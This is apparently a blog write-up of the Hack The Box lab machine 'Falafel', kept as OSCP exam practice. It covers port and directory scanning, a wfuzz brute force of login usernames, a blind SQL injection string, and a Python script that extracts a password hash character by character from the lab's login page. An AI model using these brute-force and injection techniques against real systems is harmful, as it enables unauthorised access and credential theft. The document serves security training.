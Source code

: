 ```yaml
---
title:  "Hack The Box / Falafel"
date: 2020-02-01
tags: [Penetration Testing, Hacking, Hack The Box, Jeeves, OSCP, Offensive Security]
header: 
  image: "assets/images/falafel/falafel-header.png"
---
```

Falafel is our sixth machine in the OSCP list provided by [NetSec Focus](https://www.netsecfocus.com/)! This machine was quite exotic due to its vulnerabilities and privilege escalation. Definetely some advance knowledge about php, MySQl, and linux was required, but the most of the learning came from [ipssec's](https://www.youtube.com/watch?v=CUbWpteTfio&t=) video about solving this machine. I have to say that there were easier ways to do it, but I rather to make it manually to learn how some technologies work. This is the sixth blog before my third attempt to the OSCP exam, so let's get to it!

## Information Gathering

### Nmap Scan
So, we start with a nmap scan to check what ports are open and what services are running in this machine. 

```
nmap -sC -sV -p- -oN scan.nmap 10.10.10.73
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/nmap.png" alt="nmap scan">

Here we have two useful ports and services such as SSH running in port 22 and HTTP running in port 80. There is some information in port 80 from ```robots.txt``` where it disallows all entries with a ```.txt``` extension. So, we might want to specify the extension at the time to do directory brute force.

### Directory Brute Force
This is what we have in our browser for now.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/browser-capure.png" alt="nmap scan">

Running [dirsearch](https://github.com/maurosoria/dirsearch) we have some results!
```
./dirsearch.py -u http://10.10.10.73 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -f -e txt
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/dirsearch.png" alt="nmap scan">

Let's see what we find at ```http://10.10.10.73/cyberlaw.txt```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/cyberlaw.png" alt="nmap scan">

Great, seems that some of the vector attack is related with the upload feature, here there is a username which is chris, so let's find more usernames. 

### Username Brute Force with Wfuzz
[Wfuzz](https://github.com/xmendez/wfuzz) is a pretty handy tool that can be helpful for a variety of things. In this case let's use it to do some username brute force.
```
wfuzz -c -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=abcd" -u http://10.10.10.73/login.php --hh 7074
```
Where:
- ```-w``` specifies the wordlist.
- ```-d``` the parameter to brute force
- ```-u``` URL of the target
- ```-hh``` hide results with code 7074

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/wfuzz.png" alt="nmap scan">

So we have two valid users which are __chris and admin__.

### SQL Injection to Dump Hash From Database
We can dump the whole database using the powerfull [sqlmap](http://sqlmap.org/), but that's not the idea because the learning will be gone. What we do here is try to analize the HTTP request from the login page and try to find out the correct SQL sintax that will grant us the access. To do this, the usage of [BurpSuite](https://portswigger.net/burp/communitydownload) will be crucial. So let's get to it. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/correct-user.png" alt="nmap scan">

In the repeater from Burpsuite we see that once we go with the right username, we obtain in the response ```Wronf identification : admin``` and the size of the response is ```7,397``` bytes. Saying that, let's see how is the response if we go with the wrong user. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/wrong-user.png" alt="nmap scan">

Then, we see the response ```Try again...``` and the size of this response is ```7,376``` bytes. Now knowing the size of a correct and wrong response, let's try different SQL sintax to see if we get the correct one. 
- __Note:__ There were countless tries before attempting this were most of the SQL sintax came from [SecLists](https://github.com/danielmiessler/SecLists). Also keep in mind what kind of SQL database the target is using. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/sql-sintax.png" alt="nmap scan">

Knowing that the sintax gave us a positive answer and that the hash for admin starts with ```0e``` we can create a python script that will get the hash for us. Before this, get in mind the SQL sintax used. 
```
admin' and password like '0e%'-- -
```

#### Python Script
~~~
import requests

chars = [0,1,2,3,4,5,6,7,8,9,'a','b','c','d','e','f'] # Just hex characters.

def GetSQL(i,c): # Getting proper SQL sintax using the chars. 
    return "chris' and substr(password,%s,1) = '%s'-- -" % (i,c)

for i in range(1,33): # Try to discover the hash
    for c in chars:
        injection = GetSQL(i,c)
        payload = {'username':injection, 'password':'password'}
        r = requests.post('http://10.10.10.73/login.php', data = payload)
        if "Wrong identification" in r.text:
            print(c, end='',flush=True)
            break
print()

~~~